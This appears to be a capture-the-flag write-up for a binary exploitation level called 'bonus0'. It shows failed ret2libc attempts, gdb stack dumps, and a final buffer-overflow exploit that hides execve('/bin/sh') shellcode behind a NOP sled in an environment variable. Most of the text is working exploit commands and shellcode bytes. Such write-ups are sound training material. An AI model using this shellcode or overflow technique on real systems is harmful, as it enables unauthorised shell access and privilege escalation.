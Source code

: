 # bonus0

For this exploit, we can overwrite the ret value but we can't do a ret2libc
(can't overwrite the stack enough) and don't have enough room on the stack
for a nopslide. The solution is to put our shellcode in an env variable which
gives us plenty of room for a big ass nop slide.

## Useful infos

max string we can write: `AAAABBBBCCCCDDDDEEEE1111222233334444555 1111222233334444555`

first string: `AAAABBBBCCCCDDDDEEEE`
second string `1111222233334444555`
segfaults on call to `0x34333333` -> `111122223[3334]444555`

### ret2libc try

address of system: `0xb7e6b060` -> `\x60\xb0\xe6\xb7`
address of "/bin/sh": `0xb7f8cc58` -> `\x58\xcc\xf8\xb7`

exploit: `echo -e "111122223\x60\xb0\xe6\xb74445555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb73\x60\xb0\xe6\xb7444555"`
exploit: `echo -e "\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7\x59\xcc\xf8\xb7"`

(gdb) x/100xw $esp
0xbffffdf0:	[0xbffffe06	0x080498d8	0x00000001	0x0804835d
0xbffffe00:	0xb7fd13e4	0x41410016	0x42424141	0x43434242
0xbffffe10:	0x44444343	0x45454444	0x31312045	0x32323131
0xbffffe20:	0x33333232	0x34343333	0x35353434	0xb7fd0035]
0xbffffe30:	0x080485d0	0x00000000	0x00000000	0xb7e454d3

Second try:  
exploit: `echo -e "AAAABBBBCCCCDDDDEEEE"`
exploit: `echo -e "11\x60\xb0\xe6\xb7\x58\xcc\xf8\xb7334444555"`
exploit: `echo -e "11\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x58\xcc\xf8\xb7\x60\xb0\xe6\xb75"`


### shellcode

0xffffca50
0xffffca16
0xffffdd96
0xbffffe10 = `\x16\xfe\xff\xbf`

Shellcode:  
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

exploit:  
`echo -e "\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"`
`echo -e "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x16\xfe\xff\xbf5"`

with trap:
`echo -e "\x90\x90\x90\x90\x90\xcc\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89"`
`echo -e "\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x16\xfe\xff\xbf5"`

### shellcode in environment variable

middle of the nopslide: `0xbffff8b0`

Test:  
`EXPLOIT=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xcc")`

exploit:  
str1: `echo AAAABBBBCCCCDDDDEEEE`
str2: `echo -e "11112222333344\xb0\xf8\xff\xbf5"`

`EXPLOIT=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")`
